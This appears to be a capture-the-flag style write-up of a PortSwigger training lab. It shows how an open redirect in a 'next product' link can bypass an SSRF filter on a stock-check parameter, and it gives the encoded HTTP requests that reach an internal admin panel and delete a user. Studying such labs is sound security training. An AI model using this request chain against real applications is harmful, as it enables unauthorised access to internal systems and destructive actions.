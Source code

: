 # [Lab: SSRF with filter bypass via open redirection vulnerability](https://portswigger.net/web-security/ssrf/lab-ssrf-filter-bypass-via-open-redirection)

## Lab

This lab has a stock check feature which fetches data from an internal system.

To solve the lab, change the stock check URL to access the admin interface at `http://192.168.0.12:8080/admin` and delete the user `carlos`.

The stock checker has been restricted to only access the local application, so you will need to find an open redirect affecting the application first.

## Analysis

stockApi:

  ```http
  POST /product/stock HTTP/1.1

  stockApi=/product/stock/check%3fproductId%3d13%26storeId%3d1
  ```

- stockApi only accept local path

Detected Open redirect at `Next Product` button:

  ```http
  GET /product/nextProduct?currentProductId=13&path=/product?productId=14 HTTP/1.1
  ```

## Exploit

use open redirect vulnerability to bypass ssrf prevention:

  ```http
  POST /product/stock HTTP/1.1

  stockApi=/product/nextProduct%3fcurrentProductId%3d13%26path%3dhttp%3a//192.168.0.12%3a8080/admin
  ```

- this make the redirection happened on the server-side
- result: admin panel returned

delete carlos account:

  ```http
  POST /product/stock HTTP/1.1

  stockApi=/product/nextProduct%3fcurrentProductId%3d13%26path%3dhttp%3a//192.168.0.12%3a8080/admin/delete%3fusername%3dcarlos
  ```

- lab solved
